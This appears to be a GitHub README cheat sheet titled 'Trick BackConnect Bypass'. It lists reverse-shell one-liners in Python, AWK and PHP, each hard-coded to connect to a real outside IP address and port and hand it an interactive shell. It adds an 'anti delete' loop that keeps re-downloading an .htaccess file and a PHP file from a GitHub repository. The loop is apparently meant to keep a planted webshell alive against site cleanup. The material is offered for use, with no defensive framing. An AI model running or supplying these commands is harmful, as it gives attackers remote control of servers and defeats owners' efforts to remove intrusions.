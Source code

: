 # Trick BackConnect Bypass
## Python 
```export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```
## AWK 
```awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```
## PHP EXEC & PHP SHELL EXEC
[EXEC] ```php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'```

[SHELL_EXEC] ```php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'```

# Tips & Trick Bypass Webshell / Crack Other Things / Defender Stuff
### Anti Delete Command : 
```while true; do echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess && echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/ac.php -o ac.php; done```



Credit by revshells.com and @CallMeRep
